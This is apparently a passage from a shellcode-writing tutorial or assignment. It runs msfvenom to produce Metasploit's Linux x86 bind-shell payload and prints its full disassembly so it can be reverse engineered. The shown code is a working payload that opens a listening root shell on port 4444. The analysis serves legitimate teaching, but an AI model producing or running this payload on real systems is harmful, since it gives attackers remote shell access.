 - Basic understanding of registers
- Basic understanding of stack and memory
- Basic understanding of assembly


## Approach

There are dozens of approaches you could take to create shellcode, but before we create it, we first need to need to understand how it works. 
To better understand what's happening, we're going to reverse enginner and analyze it.

```markdown
root@ubuntu:/mnt/hgfs/assembly/exam/1-Assignment/working/4-testShellcode# msfvenom --arch x86 --platform linux --payload linux/x86/shell_bind_tcp R | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 78 bytes

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
